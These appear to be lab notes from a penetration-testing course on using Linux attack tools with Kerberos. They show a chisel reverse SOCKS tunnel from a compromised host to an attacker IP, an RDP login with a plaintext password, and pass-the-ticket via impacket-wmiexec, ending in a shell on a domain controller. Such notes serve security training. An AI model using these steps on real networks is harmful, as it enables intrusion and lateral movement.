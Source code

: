 ## Using Linux Attack Tools with Kerberos
```bash
# modify host file to 
cat /etc/hosts
172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01

cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```
Connect to MS01:
```bash
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```
Execute chisel from MS01:
```cmd
c:\tools\chisel.exe client 10.10.14.33:8080 R:socks

2022/10/10 06:34:19 client: Connecting to ws://10.10.14.33:8080
2022/10/10 06:34:20 client: Connected (Latency 125.6177ms)
```
Finally, we need to transfer Julio's ccache file from LINUX01 and create the environment variable KRB5CCNAME with the value corresponding to the path of the ccache file.
## #Impacket with proxychain ans kerberos
```bash
proxychains impacket-wmiexec dc01 -k

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[*] SMBv3.0 dialect used
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:50713  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  INLANEFREIGHT.HTB:88  ...  OK
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
inlanefreight\julio
```
## #evil-winrm
```bash
sudo apt-get install krb5-user -y

# Default Kerberos Version 5 realm
# INLANEFREIGHT.htb
# The Kerberos servers can be empty.
```